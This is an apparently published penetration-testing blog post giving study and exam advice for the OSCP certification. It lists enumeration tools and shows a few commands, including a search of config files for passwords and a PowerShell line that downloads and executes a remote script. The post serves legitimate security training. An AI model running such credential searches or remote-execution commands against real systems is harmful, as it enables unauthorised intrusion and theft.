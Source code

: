 ```yaml
---
slug: oscp-journey/
title: How to Pass the OSCP
date: 2019-12-04
category: opinions
subtitle: The meaning of Try Harder
tags: challenge, ethical-hacking, pentesting, security, training, exploit
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/cover_dcbd71.webp
alt: Photo by Clint Patterson on Unsplash
description: The OSCP exam is one of the hardest certifications out there for pentesters. Here we show you how you can prepare yourself to do your best on it.
keywords: OSCP, Business, Information, Security, Protection, Hacking, Best Practices, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, OSCP - Security+
about2: '"Be formless, shapeless like water" Bruce Lee'
source: https://unsplash.com/photos/dYEuFB8KQJk
---
```


Before taking the exam,
I already had years of work experience as a penetration tester
at `Fluid Attacks`.
So,
I already knew how to perform a [penetration test](../../solutions/penetration-testing/)
and how to build a technical report of my findings.
However,
if you don't have any work experience on the field
or you're just starting out,
this post may help you pass your exam.

The most important phase on a penetration test is scanning. Here you
will use tools to get information about your target, such as its
operating system, open ports, the services running on those ports and
their versions, whether they have public vulnerabilities or not, and
whether there is a public exploit for those vulnerabilities. Since
metasploit is restricted to only **one** machine (this includes the
auxiliary modules too) you need to be familiar with tools such as
the following:

- [Nmap](https://nmap.org/)

- [Dirbuster](https://tools.kali.org/web-applications/dirbuster)

- [Nikto](https://tools.kali.org/information-gathering/nikto)

- [Gobuster](https://tools.kali.org/web-applications/gobuster)

- [Dirsearch](https://github.com/maurosoria/dirsearch)

- [enum4linux](https://tools.kali.org/information-gathering/enum4linux)

- [searchsploit](https://github.com/offensive-security/exploitdb/blob/master/searchsploit)

The only way to do this is by using them continuously until you develop
a solid enumeration strategy. To help you with this there are services like
[hackthebox](https://www.hackthebox.eu/) and
[vulnhub](https://www.vulnhub.com/), where you can find vulnerable
machines on which to test your skills.

<div class="imgblock">

![owned-machines](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/hackthebox_efxh5c.webp)

</div>

Once there you can also practice the *gaining access* phase and your
privilege escalation strategies with multiple operating systems and
vulnerabilities that resemble the ones in real-life scenarios. You would
be surprised by how many times I've encountered a vulnerability on
hackthebox first and then on a real-life service. The tools and
resources that I got the most from for privilege escalation were
these:

- [linenum](https://github.com/rebootuser/LinEnum)

- [windows exploit
  suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

- [searchsploit](https://github.com/offensive-security/exploitdb/blob/master/searchsploit)

- [JAWS](https://github.com/411Hall/JAWS)

- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

- [g0tmilk Linux privesc
  blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

- [absolomb Windows privesc
  blog](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

I recommend hacking all the live machines that you can without any help
and getting some points on the platform. Doing this helps you get used to
the tools and increases your confidence in using them when you take the
exam. If you can't hack a machine and it gets removed, you can check the
walkthrough by
[Ippsec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) and
learn new things. You can learn stuff from these videos even for
machines you did root. Do this for at least one month or, if you have no
work experience whatsoever, two months.

## Attacking the lab

I had a month of lab access, so the approach I took to the course and
the lab was to split them by days. One day concentrating on the guide and
taking notes of things that I didn't know, and another day for attacking
the lab machines.

When you are working on the machines, also work on your time management
skills. Do not spend too much time on one machine when you can try
another one. Time management becomes very important when you are taking
your exam.

Before your lab access ends, be sure that you fully understand how to do
a **buffer overflow**. Take notes of every step, copy all the commands
that you need, and also how to get the **return address**.

## Post lab

Here you want to gather the most information about the last two steps.
We are going back to hackthebox but instead of doing the active
machines we are going to do the ones from [this
list](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0)
(there are also some from vulnhub).

<div class="imgblock">

![oscp-like-machines](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330963/blog/oscp-journey/url-oscp_lgqddx.webp)

</div>

Try to conquer those machines without the aid of walkthroughs.
When you finish one, look at these walkthroughs to check whether there
is another way in; if so, then also practice it.

The day before the exam, I did nothing. Your body and mind need to rest
and you should not try to cram for the test. Eat your favourite foods
whatever they may be. Treat yourself to a well-deserved dessert and watch
movies and series that you perhaps ignored when you focused on your
studies. The point is to de-stress so you're fresh when you take the
exam.

## The exam

The task is to gain administrative access to the machines in the
network. There are five machines, each is worth a certain number of points
if you complete it, and you need at least **70** points to pass the exam.
The machine points are distributed as follows:

- 25 points buffer overflow

- 25 points machine

- Two 20 points machines

- 10 points machine

I started with the 25 points BoF machine while I scanned all the other
ones. I did this because I knew that I could follow the guide
step-by-step and get the BoF points. My scanning strategy was to run
`nmap` with these options:

**nmap with options.**

``` bash
nmap ip.ip.ip.ip -A -p- --min-rate=5000 --max-retries=5 -o tcp.txt
```

Also, I pinged the machine in order to view its operative system. If the
TTL (Time to Live) is 64 then it is a Linux machine, and if it is
128 then it's a Windows machine. When the port scan finished I
checked every web service and used a web crawler like `dirbuster` or
`dirsearch`.

After finishing the BoF machine, I started hacking the machines with
all the information that I had collected. I ended up going down rabbit
holes trying to gain admin privileges on the 25-pointer machine. Because
of the time the 25-point machine was taking, I quickly decided to switch
to both the 20-point and finally, the 10-pointer machine.

For privilege escalation I first checked the operative system version
and kernel, this can be done by running:

``` bash
uname -a #linux
> systeminfo #windows
```

If it was Linux I checked for `sudo` rights running processes, and for
`SUID` executables. There is a tool named linenum but it's too verbose
and I like to search for things manually.

``` bash
sudo -l
ps -aux
find / -perm -u=s -type f 2>/dev/null
```

If it was Windows, I checked for the `Groups.xml` file (usually it has
administrative user and password information there), installed software
and tried to use `powershell` to run Windows exploits. When it comes
to Windows, most of the time, the way of escalating privileges is
through a vulnerability in the OS version or in an installed program
version.

``` bash
> findstr /si password *.xml *.ini *.txt *.config 2>nul
> IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
```

I finished my test in less than 10 hours with 4 admins and 1 user for a
little more than **75** total points. The mistake that I made was to be
lazy with my screenshots, so I needed to redo all the machines to get
all of my evidences. **Do not do this\!** The next day I did my
technical documentation. The advice here is to put everything that you
did from the *scanning* phase up to the *privilege escalation* phase.
Also, if you modified an exploit (even if is only one line), add it to
the report and mark what you modified.

<div class="imgblock">

![oscp-win](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/oscp-win_llivv3.webp)

</div>

## Be prepared and do your best

The OSCP is a difficult certification, but it's not impossible. The
steps before the lab are going to help you get the most out of the
course and to establish your own routine when it comes to doing a
penetration test. The enumeration and scanning phases are the most
important ones in the whole process because you can spend hours going
down rabbit holes if you do not do these steps properly. Mental
toughness is needed to pass this test, so be prepared to think quickly
and creatively, daisy-chaining vulnerabilities, and rest when you need
it. The discord groups of hackthebox and OFFSEC are at your disposal to
answer your questions or give you hints where you need them. Try harder.
